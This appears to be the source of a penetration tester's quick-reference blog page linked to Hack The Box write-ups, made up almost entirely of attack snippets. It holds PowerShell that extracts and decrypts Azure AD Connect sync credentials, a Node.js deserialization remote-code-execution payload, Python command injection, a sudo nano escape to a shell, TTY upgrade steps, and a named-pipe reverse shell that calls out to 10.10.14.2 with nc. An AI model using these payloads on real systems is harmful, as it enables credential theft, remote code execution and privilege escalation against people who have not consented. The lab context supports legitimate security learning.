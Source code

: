 ```yaml
---
title: "Highlights"
date: 2020-01-03T20:06:24-05:00
draft: false
description: "Noteable Blog Highlights and Quick-References"
---
```


# Attacking Azure AD Password Hash Synchronization

**Key Reference:**   
https://blog.xpnsec.com/azuread-connect-for-redteam/

```powershell
Invoke-SQLCMD -Query "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration" -ServerInstance "MONTEVERDE" -Database "ADSync"

Invoke-SQLCMD -Query "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent" -ServerInstance "MONTEVERDE" -Database "ADSync"
```

```powershell
add-type -path "C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll"
$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)
$decrypted = $null
$key2.DecryptBase64ToString($crypted, [ref]$decrypted)
```  



# Node.js deserialization exploit  

https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/  

```js
{"rce":"_$$ND_FUNC$$_function(){\n require('child_process').exec  
('uname -a', function(error, stdout, stderr)  
{ console.log(stdout) });  \n }  
()"}  
```  


In this case the () is javascripts way of immediate function invokation, the first part of the code will build the function. 

# Spawn Fully Interactive TTY
```bash
$ /bin/bash # drop out of zsh b/c not compatible
# get initial terminal session
$ ctrl-z
$ stty raw -echo # - indicates disabling the stopping of the echo
$ fg 
$ reset
```

# Shell Spawn Python

```python
python -c 'import pty; pty.spawn("/bin/bash")'
```
# Python Command Injection

```python
__import__("os"); os.system("pwd")
```

# Python code injection w/import and backpiping

```bash
__import__("os").system("mknod /tmp/backpipe2 p && /bin/sh 0</tmp/backpipe2 | nc 10.10.14.2 4444 1>/tmp/backpipe2")
```

# Nano Escape

Opening nano as sudo we can then perform:
```bash
^R^X
Reset; sh 1>&0 2>&0
```
_Where ^R^X is ctrl+R and ctrl+X._

# HTB Writeups
[KringleCon 2019](https://medium.com/@rob.mccarthy31/kringlecon-2019-write-up-ca83081a330)
[OpenAdmin](../../post/htb/openadmin)
[Postman](../../post/htb/postman)
[Craft](../../post/htb/craft)
[Sneaky - Coming Soon](../../post/htb/sneaky)
[Traverxec - Coming Soon](../../post/htb/traverxec)

